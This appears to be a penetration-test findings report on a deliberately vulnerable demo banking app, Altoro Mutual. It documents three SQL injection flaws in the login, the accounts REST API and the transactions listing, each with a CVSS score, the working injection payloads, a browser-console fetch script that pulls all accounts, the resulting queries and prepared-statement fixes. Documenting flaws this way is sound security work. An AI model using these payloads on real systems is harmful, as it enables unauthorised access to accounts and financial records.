





# Findings details

<!-- TODO: Severity after retest -->

## SQL injection in log in

- **Test CVSS severity**: critical
- **Test CVSS score:** 9.3
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:N/SC:N/SI:N/SA:N`
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability :** an attacker can bypass the correct username/password check in the login by having the username as `asd' or 1=1 --` and the password as anything.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to bypass login
- **Recommendations:** use prepared statements instead of interpolating user inputs in the login SQL queries

## SQL injection in REST API (accounts)

- **Test CVSS severity**: High
- **Test CVSS score:** 8.7
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability :** an attacker can list all bank accounts on the system by passing the username as `asd' or 1=1 --` in the rest api authentication token.
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all bank accounts on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the listing bank accounts SQL queries and in the authentication queries

## SQL injection in transactions listing

- **Test CVSS severity**: High
- **Test CVSS score:** 7.1
- **Test CVSS vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:N/SC:N/SI:N/SA:N`
- **Description of the type of the vulnerability:** <https://owasp.org/www-community/attacks/SQL_Injection>
- **Description of the vulnerability :** an attacker can list all transactions on the system by bypassing the front-end validation in the transactions filtering page and setting the start date as `2018-06-11` and the end date as `2018-06-11 23:59:59') OR 1=1 --`
- **Impact:** severe impact; successful exploitation gives the attacker the ability to list all transactions on the system
- **Recommendations:** use prepared statements instead of interpolating user inputs in the transactions listing SQL queries

# Finding scenarios

<!-- Fixing steps, re-test steps -->

## SQL injection in log in

### Test steps

- Open /altoromutual/login.jsp
- Login with the following credentials (password can be anything):



- Observe that you are logged in as the first user in the system:



### Cause

`DBUtil.isValidUser()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:

```sql
SELECT COUNT(*) FROM PEOPLE WHERE USER_ID = 'asd' or 1=1 -- AND PASSWORD='anything'")
```

## SQL injection in REST API (accounts)

### Test steps

- Open /altoromutual
- Run the following script in your browser's dev tools' console (F12 > console):

  ```javascript
  username = "asd' or 1=1 --";
  password = 'asd';
  res = await (
    await fetch('/altoromutual/api/login', {
      headers: { 'Content-Type': 'application/json' },
      method: 'POST',
      body: JSON.stringify({
        username,
        password
      })
    })
  ).json();

  auth = res.Authorization;

  await (
    await fetch('/altoromutual/api/account', {
      headers: { Authorization: auth }
    })
  ).json();
  ```

- Observe how all bank accounts are returned:



### Cause

- `DBUtil.getUserInfo()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:
  ```sql
  SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE
  WHERE USER_ID = 'asd' or 1=1 --
  ```
- `DBUtil.getUserInfo()` returns the received username in the parameter rather than the one retrieved from the database (since it assumes they would be the same)
- `DBUtil.getAccounts()` is then called with the modified username and also interpolates the SQL query with the user input; hence the resulting query becomes:
  ```sql
  SELECT ACCOUNT_ID, ACCOUNT_NAME, BALANCE FROM ACCOUNTS
  WHERE USERID = 'asd' or 1=1 --
  ```
  leading to returning all of the users in the database

## SQL injection in transactions listing

### Test steps

- Go to /altoromutual/bank/transaction.jsp
- Run the following javascript in the browser console (F12 > console):
  ```javascript
  Form1.onsubmit = undefined;
  ```


- Set the start date as `2018-06-11` and the end date as `2018-06-11 23:59:59') OR 1=1 --`



- Click submit and observe how all of the transactions on the system are shown


### Cause

- `DBUtil.getTransactions()` method interpolates the user input in the SQL query; hence making the attacker able to execute arbitrary queries. The resulting query becomes:
  ```sql
  SELECT * FROM TRANSACTIONS
  WHERE (ACCOUNTID = 800004)
  AND (DATE BETWEEN '2018-06-11 00:00:00' AND '2018-06-11 23:59:59')
  OR 1=1 -- 23:59:59') ORDER BY DATE DESC
  ```
